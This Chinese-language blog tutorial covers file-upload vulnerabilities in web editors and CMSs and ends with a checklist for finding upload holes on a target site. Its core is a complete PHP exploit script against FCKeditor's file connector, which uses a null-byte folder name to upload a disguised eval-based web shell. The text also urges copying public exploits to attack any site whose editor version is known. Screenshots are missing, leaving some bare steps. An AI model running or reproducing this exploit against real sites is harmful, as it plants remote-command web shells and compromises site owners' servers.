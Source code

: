# 原创
：  编辑器文件上传简介及演示-CMS文件上传简介及演示-文件上传漏洞分析详细流程

# 编辑器文件上传简介及演示-CMS文件上传简介及演示-文件上传漏洞分析详细流程

## 一、编辑器文件上传简介

在某些网站里，可能会套用第三方的编辑器，来对图片、音频、文章等做相关处理，因此如果网站内有编辑器的话，编辑器的类型、版本也是我们进行渗透的一个点，大部分的编辑器漏洞都是文件上传漏洞。

## 二、fckeditor编辑器文件上传实例
1. 打开本地搭建的fckeditor编辑器站点（真正情况不是下面的样式）。1. 正常情况下是类似下面的样式，如果在网上看到类似下面的页面，就说明这个网站是有编辑器的，但是其类型、版本可能不同。1. 这个编辑器是UEditor，版本是1.4.3。1. 是由百度开发出来的。1. 通过搜索引擎在网上寻找此编辑器的漏洞，网上相关漏洞是有很多的。也就是说如果你能识别出对方网站所使用的编辑器，并且知道编辑器的路径地址，就可以根据编辑器的相应漏洞进行攻击。1. 回到我们刚开始打开的fckeditor编辑器，那么可能会问，你是怎么知道是fckeditor编辑器的呢？可以根据网页的路径，或者扫到的相关的文件来进行判断。1. 根据上图知道了此编辑器的名称以及版本，去搜索引擎去搜索相关漏洞。1. 将网上搜索到的exp进行复制。1. 在本地新建一个fck.php文件保存上面exp。
```
&lt;?php
error_reporting(0);
set_time_limit(0);
ini_set("default_socket_timeout", 5);
define(STDIN, fopen("php://stdin", "r"));
$match = array();
function http_send($host, $packet)
{
$sock = fsockopen($host, 80);
while (!$sock)
{
print "\n[-] No response from {$host}:80 Trying again...";
$sock = fsockopen($host, 80);
}
fputs($sock, $packet);
while (!feof($sock)) $resp .= fread($sock, 1024);
fclose($sock);
print $resp;
return $resp;
}
function connector_response($html)
{
global $match;
return (preg_match("/OnUploadCompleted\((\d),\"(.*)\"\)/", $html, $match) &amp;&amp; in_array($match[1], array(0, 201)));
}
print "\n+------------------------------------------------------------------+";
print "\n|         FCKEditor Servelet Arbitrary File Upload Exploit         |";
print "\n+------------------------------------------------------------------+\n";
if ($argc &lt; 3)
{
print "\nUsage......: php $argv[0] host path\n";
print "\nExample....: php $argv[0] localhost /\n";
print "\nExample....: php $argv[0] localhost /FCKEditor/\n";
die();
}
$host = $argv[1];
$path = ereg_replace("(/){2,}", "/", $argv[2]);
$filename = "fvck.gif";
$foldername = "fuck.php%00.gif";
$connector = "editor/filemanager/connectors/php/connector.php";
$payload = "-----------------------------265001916915724\r\n";
$payload .= "Content-Disposition: form-data; name=\"NewFile\"; filename=\"{$filename}\"\r\n";
$payload .= "Content-Type: image/jpeg\r\n\r\n";
$payload .= 'GIF89a'."\r\n".'&lt;?php eval($_POST[cmd]) ?&gt;'."\n";
$payload .= "-----------------------------265001916915724--\r\n";
$packet = "POST {$path}{$connector}?Command=FileUpload&amp;Type=Image&amp;CurrentFolder=".$foldername." HTTP/1.0\r\n";//print $packet;
$packet .= "Host: {$host}\r\n";
$packet .= "Content-Type: multipart/form-data; boundary=---------------------------265001916915724\r\n";
$packet .= "Content-Length: ".strlen($payload)."\r\n";
$packet .= "Connection: close\r\n\r\n";
$packet .= $payload;
print $packet;
if (!connector_response(http_send($host, $packet))) die("\n[-] Upload failed!\n");
else print "\n[-] Job done! try http://${host}/$match[2] \n";
?&gt;
```
1. 将这个文件拖到php的安装目录里。1. 在当前目录创建一个cmd文件。1. 输入以下命令运行php文件。1. 输入以下命令进行上传。1. 上传完成，访问给出的路径即可。1. 可以看到文件成功被上传上来了。
## 三、如何判断使用的什么编辑器
1. 进入网站的会员中心或者后台中心可以看到其使用编辑器的情况。1. 使用文件扫描，观察编辑器的相关路径。1. eg 11. eg 21. eg 3
## 四、CMS文件上传简介

在网上有很多网站开源原码（简称CMS）,CMS原码也可能会有相应的文件上传漏洞，只需要在网上查找相应漏洞，便可以进行突破。

## 五、通达OA系统文件上传实例
1. 对其进行配置。1. 配置完成后打开页面。1. 正常看到这个界面后去搜索引擎内进行搜索。1. 打开网页后可以看到exp。
## 六、文件上传漏洞分析流程

在拿到一个网站后，如果单纯想从文件上传方面分析漏洞，流程如下所示。
1. 首先要看中间件，确定其是否存在解析漏洞。1. 确定存在漏洞后，接下来就要寻找文件上传点了。1. 可以通过字典扫面，也可以通过会员中心等位置。1. 如果没有解析漏洞的话，就可以进行对文件上传方面检测的分析和绕过了。1. 此时就要判断对方是黑名单还是白名单还是基于内容的验证了。1. 确定之后就可以按照对应方法进行绕过了。1. 如果在这方面依然没办法进行绕过，就可以考虑网站的CMS了，因为CMS也可能会爆出一些网站的漏洞。1. 如果CMS方面也没有漏洞，就可以在网站上寻找有没有编辑器了。1. 可以通过字典扫描，或者查看网站的会员中心或者后台来看到编辑器的类型以及版本。1. 得到编辑器的信息之后，就可以到搜索引擎内搜索相关漏洞了。1. 如果这方面依然不行，就可以查看CVE编号漏洞了，看网上最近有没有爆出相关的CVE编号漏洞。1. 如果上面所有方面均测试完成了还没有找到漏洞，那么大概率就是不存在文件上传漏洞了。